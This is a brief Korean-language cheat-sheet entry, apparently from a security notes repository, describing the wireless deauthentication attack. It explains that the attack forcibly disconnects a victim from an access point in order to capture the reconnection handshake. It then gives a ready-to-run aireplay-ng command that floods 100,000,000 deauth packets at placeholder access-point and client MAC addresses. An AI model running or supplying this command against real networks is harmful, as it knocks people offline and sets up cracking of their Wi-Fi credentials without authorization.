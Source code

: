 # deauthentication attack (연결 해제 공격)

> wireless 연결을 해제시키는 공격 방법
>
> > handshake 데이터를 얻기 위하여 의도적으로 연결을 해제시키고 희생자가 재연결하기를 기다릴 때 사용할 수 있다.

```sh
# aireplay-ng --deauth [패킷수] -a [접속점_mac주소] -c [클라이언트_mac주소] [인터페이스]

aireplay-ng --deauth 100000000 -a [access_point_macaddress] -c [client_macaddress] wlan0
```
